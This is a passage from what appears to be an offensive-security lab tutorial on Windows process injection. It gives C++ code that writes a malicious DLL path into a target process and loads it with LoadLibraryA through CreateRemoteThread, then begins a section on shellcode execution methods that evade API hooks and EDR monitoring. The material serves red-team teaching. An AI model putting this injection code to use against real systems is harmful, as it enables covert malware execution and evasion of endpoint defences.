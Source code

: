 At step four, we need to write the malicious DLL to the allocated memory location. We can use `WriteProcessMemory` to write to the allocated region.
```cpp
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```

At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use `LoadLibrary`; imported from `kernel32`. Once loaded, `CreateRemoteThread` can be used to execute memory using `LoadLibrary` as the starting function.

```cpp

LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

We can compile these steps together to create a DLL injector. Use the C++ injector provided and experiment with DLL injection.


## Memory Execution Alternatives
Depending on the environment you are placed in, you may need to alter the way that you execute your shellcode. This could occur when there are hooks on an API call and you cannot evade or unhook them, an EDR is monitoring threads, etc.

Up to this point, we have primarily looked at methods of allocating and writing data to and from local/remote processes. Execution is also a vital step in any injection technique; although not as important when attempting to minimize memory artifacts and IOCs (**I**ndicators **o**f **C**ompromise). Unlike allocating and writing data, execution has many options to choose from.

Throughout this room, we have observed execution primarily through `CreateThread` and its counterpart, `CreateRemoteThread`.

In this task we will cover three other execution methods that can be used depending on the circumstances of your environment.

Invoking Function Pointers
